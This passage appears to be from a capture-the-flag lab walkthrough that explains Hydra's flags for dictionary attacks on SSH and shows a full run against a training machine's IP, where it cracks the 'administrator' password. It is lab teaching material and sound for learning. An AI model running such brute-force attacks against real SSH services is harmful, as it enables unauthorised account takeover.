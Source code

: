 **Preparation**

It's advisable that you exit Metasploit to continue the exploitation of this section of the room. Secondly, it's useful to keep a note of the information you gathered during the enumeration stage, to aid in the exploitation.

**Hydra**

There is a wide array of customisability when it comes to using Hydra, and it allows for adaptive password attacks against of many different services, including SSH. Hydra comes by default on both Parrot and Kali, however if you need it, you can find the GitHub here.

Hydra uses dictionary attacks primarily, both Kali Linux and Parrot OS have many different wordlists in the "/usr/share/wordlists" directory- if you'd like to browse and find a different wordlists to the widely used "rockyou.txt". Likewise I recommend checking out SecLists for a wider array of other wordlists that are extremely useful for all sorts of purposes, other than just password cracking. E.g. subdomain enumeration

The syntax for the command we're going to use to find the passwords is this: "`hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.72.209 ssh`"

Let's break it down:

| SECTION        | FUNCTION                                                                             |
| -------------- | ------------------------------------------------------------------------------------ |
| hydra          | Runs the hydra tool                                                                  |
| -t 16          | Number of parallel connections per target                                            |
| -l [user]      | Points to the user who's account you're trying to compromise                         |
| -P             | [path to dictionary] Points to the file containing the list of possible passwords    |
| -vV            | Sets verbose mode to very verbose, shows the login+pass combination for each attempt |
| [machine IP]   | The IP address of the target machine                                                 |
| ssh / protocol | Sets the protocol                                                                    |

Looks like we're ready to rock n roll!

What is the password of the user we found during our enumeration stage?

```
kali@kali:~/CTFs/tryhackme/Network Services 2$ hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.72.209 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-13 17:51:59
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.72.209:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://administrator@10.10.72.209:22
[INFO] Successful, password authentication is supported by ssh://10.10.72.209:22
[22][ssh] host: 10.10.72.209   login: administrator   password: alejandro
[STATUS] attack finished for 10.10.72.209 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-13 17:52:55
```
